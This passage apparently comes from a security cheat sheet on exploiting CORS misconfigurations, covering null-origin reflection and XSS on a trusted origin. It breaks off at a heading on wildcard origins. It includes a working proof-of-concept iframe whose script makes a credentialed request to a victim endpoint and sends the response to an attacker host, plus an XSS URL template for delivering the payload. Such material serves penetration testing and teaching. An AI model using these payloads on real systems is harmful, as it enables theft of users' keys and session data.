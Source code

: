 ### Null Origin

#### Vulnerable Implementation

It's possible that the server does not reflect the complete `Origin` header but
that the `null` origin is allowed. This would look like this in the server's
response:

```
GET /endpoint HTTP/1.1
Host: victim.example.com
Origin: null
Cookie: sessionid=... 

HTTP/1.1 200 OK
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true 

{"[private API key]"}
```

#### Proof of concept

This can be exploited by putting the attack code into an iframe using the data
URI scheme. If the data URI scheme is used, the browser will use the `null`
origin in the request:

```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html, <script>
  var req = new XMLHttpRequest();
  req.onload = reqListener;
  req.open('get','https://victim.example.com/endpoint',true);
  req.withCredentials = true;
  req.send();

  function reqListener() {
    location='https://attacker.example.net/log?key='+encodeURIComponent(this.responseText);
   };
</script>"></iframe> 
```

### XSS on Trusted Origin

If the application does implement a strict whitelist of allowed origins, the
exploit codes from above do not work. But if you have an XSS on a trusted
origin, you can inject the exploit coded from above in order to exploit CORS
again.

```
https://trusted-origin.example.com/?xss=<script>CORS-ATTACK-PAYLOAD</script>
```

### Wildcard Origin `*` without Credentials

